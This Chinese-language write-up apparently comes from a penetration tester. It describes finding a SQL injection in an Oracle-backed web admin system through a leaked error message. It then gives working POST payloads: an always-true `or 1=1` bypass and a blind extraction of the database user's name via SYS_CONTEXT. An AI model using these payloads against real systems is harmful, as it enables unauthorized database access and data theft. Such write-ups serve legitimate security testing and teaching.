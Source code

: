 # 记一次手工oracle注入的挖掘

收获：想想or语句  
环境为阿里云测试服务器，新上线系统。  
首先在post数据中的name字段添加测试字符，报错如下：  

```txt
pagenum=1&pagesize=20&name=1'&phone=&type=-1&isyunying=1

HTTP/1.1 200
Content-Type: application/json;charset=UTF-8
Date: Wed, 06 Mar 2019 03:06:37 GMT
Connection: close
Content-Length: 899

{"data":null,"success":false,"id":0,"count":0,"pages":0,"errcode":null,"errmsg":"\r\n### Error querying database.  Cause: java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n\r\n### The error may exist in file [D:\\apache-tomcat-8.5.37\\webapps\\admin\\WEB-INF\\classes\\mapper\\UserMapper.xml]\r\n### The error may involve com.kkeye.wdwx.admin.mapper.UserMapper.getList-Inline\r\n### The error occurred while setting parameters\r\n### SQL: select count(0) from (select tu.*,tui.amount,tui.cnt from wdwx_t_user tu left join wdwx_t_userinfo tui on tui.userid=tu.id          WHERE  tu.isyunying=?                          and tu.nickname like '%1'%'          order by tu.id desc) tmp_count\r\n### Cause: java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n\n; bad SQL grammar []; nested exception is java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n","ope_pm":false,"pms":null}
```

注意其中sql报错：
`select count(0) from (select tu.*,tui.amount,tui.cnt from wdwx_t_user tu left join wdwx_t_userinfo tui on tui.userid=tu.id    WHERE  tu.isyunying=?  and tu.nickname like '%1'%'    order by tu.id desc)`

like 后面的位置存在注入。会使用   `'% %'`将输入值包围起来。

使用`pagenum=1&pagesize=20&name=1%'or'%'='&phone=&type=-1&isyunying=1`发现异常。

后续使用 `pagenum=1&pagesize=20&name=1'or 1=1--+&phone=&type=-1&isyunying=1`成功获得返回值。

最后使用如下语句确认存在注入，并得到用户名长度。
`pagenum=1&pagesize=20&name=1' or ascii(substr(SYS_CONTEXT('USERENV','CURRENT_USER'),1,1))=87 --+&phone=&type=-1&isyunying=1`